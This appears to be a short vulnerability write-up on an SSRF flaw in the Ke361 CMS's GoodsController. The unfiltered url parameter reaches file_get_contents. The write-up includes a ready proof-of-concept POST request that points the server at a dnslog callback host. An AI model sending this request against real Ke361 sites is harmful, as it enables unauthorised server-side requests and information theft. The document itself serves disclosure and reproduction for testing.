# Ke361 GoodsController.class.php SSRF vulnerability

## Vulnerability Description

Ke361 GoodsController.class.php URL parameter has an SSRF vulnerability, and sensitive information can be obtained through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ke361</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://gitee.com/jcove/ke361</span>

## Vulnerability reappears

CMS Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35.png)

The vulnerable file is `Application/Home/Controller/GoodsController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634173817836-6c70b428-ad33-4f61-9c5f-94728c906ff2.png)

The URL parameters are not filtered, and the file_get_contents function is passed in, causing SSRF vulnerability and constructing requests

```php
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=https://6si2gt.dnslog.cn
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634173848355-4f9cb3d2-7e5e-4b6d-8ca7-c7fbacb844e8.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634173865625-05a6c6ce-d427-498e-80c0-ef8b6ec232a3.png)